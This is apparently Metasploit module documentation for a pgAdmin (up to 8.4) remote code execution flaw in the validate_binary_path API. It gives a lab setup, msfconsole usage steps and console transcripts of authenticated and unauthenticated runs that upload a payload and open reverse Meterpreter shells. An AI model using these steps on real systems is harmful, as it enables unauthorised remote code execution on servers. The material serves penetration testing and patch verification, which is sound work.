 ## Vulnerable Application
The pgAdmin versions up to 8.4 are vulnerable to a Remote Code Execution (RCE) flaw through the validate binary path API.
This vulnerability allows attackers to run arbitrary code on the server hosting pgAdmin, which poses a significant
threat to the integrity of the database management system and the security of its underlying data.

The exploit can be executed in both authenticated and unauthenticated scenarios. When valid credentials are available,
Metasploit can log in to pgAdmin, upload a malicious payload using the file management plugin, and then execute it via
the validate_binary_path endpoint. This vulnerability is specific to Windows targets. If authentication is not required
by the application, Metasploit can directly upload and trigger the payload through the validate_binary_path endpoint.

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/multi/http/pgadmin_binary_path_api`
1. Set the `RHOST`, `PAYLOAD`, and optionally the `USERNAME` and `PASSWORD` options
1. Do: `run`


### Installation (Windows)

These steps are the bare minimum to get the application to run for testing and should not be use for a production setup.
For a production setup, a server like Apache should be setup to run pgAdmin through it's WSGI interface.

**The following paths are all relative to the default installation path `C:\Program Files\pgAdmin 4\web`**.

1. [Download][1] and install the Windows build
1. Copy the `config_distro.py` file to `config_local.py`
1. Edit `config_local.py` and set `SERVER_MODE` to `True`
1. Edit `config_local.py` and add `DEFAULT_SERVER = '0.0.0.0'` to bind on all IPs, required for remotely exploiting from a different machine
1. Initialize the database: `..\python\python.exe setup.py setup-db`
1. Create an initial user account: `..\python\python.exe setup.py add-user --admin test@test.com 123456`
1. Run the application: `..\python\python.exe pgAdmin4.py`

## Scenarios
Specific demo of using the module that might be useful in a real world scenario.

### pgAdmin 8.4 on Windows (Authenticated)

```
msf6 exploit(windows/http/pgadmin_binary_path_api) > set RHOSTS 192.168.1.5
RHOSTS => 192.168.1.5
msf6 exploit(windows/http/pgadmin_binary_path_api) > set USERNAME test@test.com
USERNAME => test@test.com
msf6 exploit(windows/http/pgadmin_binary_path_api) > set PASSWORD 123456
PASSWORD => 123456
msf6 exploit(windows/http/pgadmin_binary_path_api) > set LHOST 192.168.1.6 
LHOST => 192.168.1.6
msf6 exploit(windows/http/pgadmin_binary_path_api) > exploit 

[*] Started reverse TCP handler on 192.168.1.6:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. pgAdmin version 8.4.0 is affected
[*] Successfully authenticated to pgAdmin
[*] Payload uploaded to: C:\Users\pgAdmin\Desktop\CVE-2024-3116\pgadmin4\storage\test_test.com/pg_restore.exe
[*] Sending stage (201798 bytes) to 192.168.1.5
[*] Meterpreter session 1 opened (192.168.1.6:4444 -> 192.168.1.5:52588) at 2024-08-26 19:48:10 +0200
[!] This exploit may require manual cleanup of 'C:\Users\pgAdmin\Desktop\CVE-2024-3116\pgadmin4\storage\test_test.com/pg_restore.exe' on the target

meterpreter > sysinfo
Computer        : DESKTOP-FMNV75N
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > 

```

### pgAdmin 8.4 on Windows (Unauthenticated)

```
msf6 exploit(windows/http/pgadmin_binary_path_api) > set RHOSTS 192.168.1.7
RHOSTS => 192.168.1.7
msf6 exploit(windows/http/pgadmin_binary_path_api) > set LHOST 192.168.1.6 
LHOST => 192.168.1.6
msf6 exploit(windows/http/pgadmin_binary_path_api) > exploit 

[*] Started reverse TCP handler on 192.168.1.6:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. pgAdmin version 8.4.0 is affected
[*] Payload uploaded to: C:\Users\pgAdmin\pg_restore.exe
[*] Sending stage (200774 bytes) to 192.168.1.7
[*] Meterpreter session 1 opened (192.168.1.6:4444 -> 192.168.1.7:55560) at 2024-08-26 19:51:01 +0200
[!] This exploit may require manual cleanup of 'C:\Users\pgAdmin\pg_restore.exe' on the target

meterpreter > sysinfo
Computer        : DESKTOP-HTGS43E
OS              : Windows 10 (10.0 Build 22000).
Architecture    : x64
System Language : en_GB
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > 

```
